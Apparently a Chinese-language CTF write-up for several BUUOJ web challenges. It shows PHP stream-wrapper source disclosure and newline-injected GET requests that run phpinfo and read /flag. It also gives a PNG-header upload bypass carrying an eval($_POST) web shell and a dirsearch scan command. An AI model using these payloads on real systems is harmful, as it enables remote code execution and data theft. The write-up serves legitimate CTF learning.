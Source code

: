 ```php
}
else{
    highlight_file(__FILE__);
}
?>
```

BurpSuite的POST请求需要加上`Content-Type: application/x-www-form-urlencoded`

text可用php://input传字符串，file可用php://filter/read=convert.Base64-encode/resource=next.php

得到一串
```sh
PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K
```
暂且记下

### [PHP注入](https://buuoj.cn/challenges#[HFCTF2021%20Quals]Unsetme)
类似于SQL注入的思想
```sh
GET /?a=a%0a);%0aphpinfo( HTTP/1.1
```

```sh
GET /?a=a%0a);%0aecho%00file_get_contents(%27/flag%27 HTTP/1.1
```

### [PHP file upload](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]Upload)
文件上传类型限制。

修改POST请求中的内容类型后
```sh
Content-Type: image/png
```
界面显示“ThinkPHP V5.1.35 LTS { 十年磨一剑-为API开发设计的高性能框架 }”

PNG头0x89504E47
```sh
89504E47
<script language="php">eval($_POST["cmd"])</script>
```

工具`dirsearch`需要python 3.9及以上。
```sh
./dirsearch.py -u http://066ef743-ac4c-49bd-a357-ccc1a1ce4f59.node5.buuoj.cn:81/ -e "*"
```
但显示
```sh
Skipped the target due to 429 status code
```
错误，扫描请求频率过高被服务器限制。`--delay 0.1 -t 1`延时加减线程为1.
